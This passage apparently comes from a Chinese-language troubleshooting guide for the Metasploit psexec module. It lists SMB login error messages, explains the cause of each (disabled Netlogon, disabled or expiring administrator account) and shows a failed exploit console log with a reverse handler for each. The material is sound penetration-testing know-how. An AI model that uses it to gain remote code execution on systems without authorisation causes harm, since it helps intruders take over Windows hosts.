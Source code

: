 RubySMB::Error::UnexpectedStatusCode STATUS_USER_SESSION_DELETED

```
msf5 exploit(windows/smb/psexec) > exploit 
[*] Started reverse TCP handler on 192.168.1.120:4444 [*] 192.168.1.108:445 - Connecting to the server...[*] 192.168.1.108:445 - Authenticating to 192.168.1.108:445| as user 'administrator'...[-] 192.168.1.108:445 - Exploit failed: RubySMB::Error::UnexpectedStatusCode STATUS_USER_SESSION_DELETED
```



### (7) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_NETLOGON_NOT_STARTED

报错原因：Netlogon或Workstation服务已禁用。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445|WORKGROUP as user '90sec'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_NETLOGON_NOT_STARTED (Command=115 WordCount=0)
```



### (8) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_ACCOUNT_DISABLED

报错原因：目标主机上的administrator管理员账户被禁用。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445 as user 'administrator'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_ACCOUNT_DISABLED (Command=115 WordCount=0)
```



### (9) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_PASSWORD_MUST_CHANGE

报错原因：用户下次登录时须更改密码，组策略“密码最长使用期限”默认为42天。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:443 [*] Connecting to the server...[*] Authenticating to 192.168.1.108:445 as user 'administrator'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_PASSWORD_MUST_CHANGE (Command=115 WordCount=0)
```



### (10) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_ACCOUNT_LOCKED_OUT
